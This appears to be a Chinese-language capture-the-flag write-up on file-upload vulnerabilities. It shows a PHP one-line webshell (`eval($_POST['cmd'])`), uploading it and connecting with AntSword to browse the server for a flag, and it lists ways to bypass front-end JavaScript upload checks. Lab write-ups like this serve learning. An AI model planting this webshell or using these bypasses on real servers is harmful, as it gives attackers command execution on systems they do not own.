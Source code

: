 ## 无验证

先来一道简单点的题，这道题没有对文件进行任何校验，正好借此来熟悉一下怎么通过上传的脚本文件获取到服务器的命令执行能力。

![image.png](https://s2.loli.net/2025/08/28/xT4ejOtXFpqR2SC.png)

先来写个很简单的**一句话木马**的php文件，原来就是 eval() 函数会把语句内的字符串当作 PHP 代码来执行来执行，我们通过 post 请求的 cmd 参数来输入命令，很简单吧！

```
<?php @eval($_POST['cmd']); ?>
```

直接上传木马文件，可以看到网站很贴心地给我们返回了文件的相对路径。

![image.png](https://s2.loli.net/2025/08/28/CD4uSVXvdcH93wJ.png)

先试试能不能执行命令吧！构造一个 POST 请求，测试一下 ls、pwd 命令

![image.png](https://s2.loli.net/2025/08/28/pyZvWFkedbomVqi.png)

![image.png](https://s2.loli.net/2025/08/28/zkcOTmqZ5P1EFuj.png)

确认木马文件上传并访问成功后，打开蚁剑，Add shell，Shell url 就是当前的链接 + 木马文件相对路径，而 Shell pwd 则是 post 参数 cmd，然后 Test Connection 看到测试连接成功后，直接 Add 就行。

![image.png](https://s2.loli.net/2025/08/28/xk9pGcQAqLEOTiV.png)

接下来就可以连上服务器随意浏览服务器的文件了！实际上蚁剑就是帮我们省去了自己构造注入了命令的 POST 请求的功夫，替换成了图形界面。

![image.png](https://s2.loli.net/2025/08/28/xZwmBAMUsSqyojY.png)

找到 flag，通过！

![image.png](https://s2.loli.net/2025/08/28/uNlROwzfIT369KW.png)

![image.png](https://s2.loli.net/2025/08/28/JO7vpmStW8u9yKN.png)

## js 验证

这次直接上传文件被拦截了。

![1.png](https://s2.loli.net/2025/08/28/m7cEgqZVTAKS2hn.png)

查看网页代码可以看到，拦截的逻辑是在前端做的。

![2.png](https://s2.loli.net/2025/08/28/JaKFp7ebd9h4jDM.png)

想要绕过前端 js 的验证，通常有几种方法：
1. 禁用 js。这个很容易理解，直接在浏览器设置禁用 js，这个校验的程序就跑不了了
2. 删除检测代码。前端一般给 form 表单添加 onsubmit 监听（或者其它事件），直接在浏览器删除掉这个代码就是了
3. 拦截请求，改包。上传一个符合 js 验证条件的文件，然后抓包，再修改请求数据，再放行请求

前两种办法比较简单，不过多赘述，我这里使用第三种方法。
